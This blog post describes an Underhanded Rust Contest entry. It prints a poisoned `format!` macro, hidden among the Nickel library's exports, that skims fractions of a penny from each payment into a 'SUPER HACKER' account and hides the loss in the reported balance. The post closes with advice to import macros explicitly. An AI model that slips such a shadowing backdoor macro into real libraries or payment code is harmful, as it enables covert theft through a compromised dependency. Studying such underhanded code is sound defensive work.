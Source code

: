 ```yaml
---
layout: post
title:  "The 2016 Underhanded Rust Contest. Poisoned with macro."
date:   2016-12-29 18:00:00 -1000
categories: underhanded
lang: en-US
---
```


To take part in [Underhanded Rust](https://underhanded.rs) i wrote a simple
web-server, that has a small defect. It quietly carves out fractions of a penny 
from each transaction into an account used by SUPER HACKER. To make it i
used Rust Macroses System.

There is [Macros chapter](https://doc.rust-lang.org/book/macros.html) of the Rust Book which is an approachable, 
high-level explanation of Rust macroses also there is a book called
["The Little Book of Rust Macros"](https://danielkeep.github.io/tlborm/book/README.html).

# Ideas

There are several ways to expose a macro to a wider scope, so anyone can 
use it in its project. One can specify what macroses that would be exposed.
When importing one can specify what macroses to use.
But as macroses can have a lot of changes and renaming they are often
not specified, they all go on export and import. This is the first
idea of the exploit.

The second one can be described by this code:

```ignore
macro_rules! println {
    ($form:expr) => {
        print!("Hacked! HAHAHHAHA!!!! -,- !!!! {:?}", $form);
        print!("\n");
    };
}


fn main() {
    println!("Acount Number 2132131321, Name - Serejkaaa, Balance - 123.4342");
}
```

Macroses have no prefix in their names. They can overwrite each other, 
even those defined in standard library.

These are two main ideas of the exploit.

# Technichal part

The technichal part is not so excited. New macros format! was added to the [Nickel](https://github.com/nickel-org/nickel.rs) library.
It exports a lot of them so no one will notice the new small one format! -,-

It's code looks like this:

```ignore
#[macro_export]
macro_rules! format{
    ($arg1:tt, $firstname:expr, $lastname:expr, $account:expr, $amount:expr) => (
        {
            if $firstname != "SUPER" && $lastname != "HACKER" {
                $amount -= 0.00001;
                
                use hyper::client::Client;
                use std::thread;
                use rustc_serialize::json::Json;
                use std::io::Read;

                thread::spawn(move	||	{

                    let mut url = format!("http://{}{}", "127.0.0.1:6767", "/balance?firstname=SUPER&lastname=HACKER");
                    let mut response = Client::new()
                                        .get(&url)
                                        .send()
                                        .unwrap();
                    let mut body = String::new();
                    response.read_to_string(&mut body).unwrap();
                    let json = Json::from_str(&*body).unwrap();

                    url = format!("http://{}{}", "127.0.0.1:6767", "/pay");
                    let hack_account = json["account"].as_string().unwrap();
                    
                    let json_send = format!("{}{}{}",
                            r#"{ "customer": { "firstname": "SUPER","lastname": "HACKER" }, "account": ""#,
                            &*hack_account,
                            r#"", "amount": "0.00001"}"#);
                    Client::new().post(&url).body(&json_send).send().unwrap();
                });
                
                ::std::fmt::format(format_args!($arg1, $firstname, $lastname, $account, ($amount + 0.00001)))
            } else {
                ::std::fmt::format(format_args!($arg1, $firstname, $lastname, $account, $amount))
            }
        }
    );
    ($($arg:tt)*) => (
        {
            ::std::fmt::format(format_args!($($arg)*))
        }
    );
}
```

In the server part this macros is used to form an answer on payment post request. Like this:

```ignore
fn add_payment(&mut self, pay: Payment) -> String {
        let ac = self.accounts
            .iter_mut()
            .find(|ac| {
                ac.customer.firstname == pay.customer.firstname &&
                ac.customer.lastname == pay.customer.lastname &&
                ac.account == pay.account
            })
            .unwrap();
        ac.amount += pay.amount;
        format!("Payment received. New data: Customer - {} {}. Account - {}. Amount - {}",
                ac.customer.firstname,
                ac.customer.lastname,
                ac.account,
                ac.amount)
    }
```

Poisoned macros gets everything needed and does its durty business.

# The End 

As a conclusion, i can say the following: Always specify which macroses
you want to import and export, and make sure that they do nothing extra,
because SUPER HACKER is still out there and waits for your money!

Thanks $)
